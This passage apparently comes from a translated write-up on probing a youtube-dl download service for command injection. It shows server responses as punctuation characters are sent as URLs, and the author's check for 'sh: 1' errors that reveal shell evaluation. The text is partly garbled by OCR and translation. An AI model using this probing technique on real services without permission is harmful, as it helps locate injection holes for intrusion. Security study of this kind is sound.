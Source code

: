 ``` python
{"status": 2, "errors": "WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this. \ nUsage: youtube-dl [OPTIONS] URL [URL ...] \ n \ nyoutube-dl: error: You must provide at least one URL. \ nType youtube-dl --help to see a list of all options. \ n "," url_orginal ":" # "," output ":" "," result_url ":" \ / tmp \ / downloads \ /5ed76bb3898a2.mp3 "}
TRYING: $ =====================================

{"status": 1, "errors": "WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this. \ nERROR: u '$' is not a valid URL Set --default-search \ "ytsearch \" (or run youtube-dl \ "ytsearch: $ \") to search YouTube \ n "," url_orginal ":" $ "," output ":" "," result_url ":" \ / tmp \ / downloads \ /5ed76bb44a615.mp3 "}
TRYING:% =====================================

{"status": 1, "errors": "WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this. \ nERROR: u '%' is not a valid URL Set --default-search \ "ytsearch \" (or run youtube-dl \ "ytsearch:% \") to search YouTube \ n "," url_orginal ":"% "," output ":" "," result_url ":" \ / tmp \ / downloads \ /5ed76bb586577.mp3 "}

['!', '"', '#', '$', '%', '&'," '",' (',') ',' * ',' + ',', ',' - ','. ',' / ',': ','; ',' <',' = ','> ','? ',' @ ',' [',' \\ ','] ',' ^ ',' _ ',' `',' {',' | ','} ',' ~ ']
```
I allowed myself to shorten the output. We see an amazing thing. With many characters, the server response evaluates to bash ``` "errors": sh: 1```.
Let's change the condition so that it also takes into account the response content from the server ``` if "sh: 1" in r.text: ```

``` python
python3 DMV: 1_script.py
! "# $% & '() * +, -. / :; <=>? @ [\] ^ _` {|} ~


TRYING: "=====================================

{"status": 2, "errors": "sh: 1: Syntax error: Unterminated quoted string \ n", "url_orginal": "\" "," output ":" "," result_url ":" \ / tmp \ / downloads \ /5ed76e43df7cc.mp3 "}


TRYING: & =====================================

{"status": 127, "errors": "sh: 1: -f: not found \ nWARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this. \ nUsage : youtube-dl [OPTIONS] URL [URL ...] \ n \ nyoutube-dl: error: You must provide at least one URL. \ nType youtube-dl --help to see a list of all options. \ n " , "url_orginal": "&", "output ":" "," result_url ":" \ / tmp \ / downloads \ /5ed76e4733f9e.mp3 "}
TRYING: '=====================================

{"status": 2, "errors": "sh: 1: Syntax error: \" (\ "unexpected \ n", "url_orginal": "'", "output": "", "result_url": "\ /tmp\/downloads\/5ed76e47e8c4e.mp3 "}
TRYING: (=====================================

{"status": 2, "errors": "sh: 1: Syntax error: \" (\ "unexpected \ n", "url_orginal": "(", "output": "", "result_url": "\ /tmp\/downloads\/5ed76e47ea248.mp3 "}
TRYING :) =====================================

{"status": 2, "errors": "sh: 1: Syntax error: \") \ "unexpected \ n", "url_orginal": ")", "output": "", "result_url": "\ /tmp\/downloads\/5ed76e47eb86b.mp3 "}


TRYING:; =====================================

```